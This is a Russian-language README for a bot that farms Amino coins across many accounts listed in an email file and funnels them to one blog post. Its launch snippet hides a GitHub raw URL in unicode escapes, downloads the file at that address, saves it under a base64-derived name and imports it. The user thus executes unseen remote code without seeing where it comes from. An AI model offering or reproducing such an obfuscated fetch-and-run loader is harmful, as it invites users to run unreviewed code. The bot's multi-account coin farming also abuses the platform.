 # Amino-Farm-Bot
Бот для фарма монет в Амино. 
___
- Для фарма нужно создать файл с почтами.
    - Новая почта >> новая строка. 


- Перед фармом бот запросит ссылку на пост (запись в блоге).
    - Сообщество должно быть открытым.

    - Ваш уровень в нем:
        - выше пятого.

    - Монеты придут на этот пост.
___

- Процес.
    - Приносит 38.
        - Может и сотку или больше.
        - Тут уж зависит от инета и везения. 
    - Фарм долгий:
        - иначе мало монет. 

    - Отправка мгновенная со всех аккаунтов сразу:
        - хоть что-то радует. 
___

- Монеты приносит раз в 24 часа.
    - << Не раз в сутки <<.
___

- Модули устанавливаются сами.
    - Просто запустите код:
        - к примеру pydroid3.
___

- Код запуска:

```
import requests, os, time
import base64

name = base64.b64encode("\u0041\u006e\u0061\u006e\u0061\u0073\u0069\u006b".encode("ascii")).decode().split("=")[0]
code = requests.get("\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0072\u0061\u0077\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u0075\u0073\u0065\u0072\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u002e\u0063\u006f\u006d\u002f\u0041\u006d\u0065\u0044\u0061\u0072\u006b\u002f\u0041\u006d\u0069\u006e\u006f\u002d\u0046\u0061\u0072\u006d\u002d\u0042\u006f\u0074\u002f\u006d\u0061\u0069\u006e\u002f\u0066\u0061\u0072\u006d\u002e\u0070\u0079").text

open("{}.py".format(name), "w").write(code)
os.system("echo 'Ananasik :3 \n'")

from threading import Thread
def work():
    __import__(name)

Thread(target = work).start()

input()
```
___

- По вопросам:
    - [Телеграмм](https://t.me/meow3942).
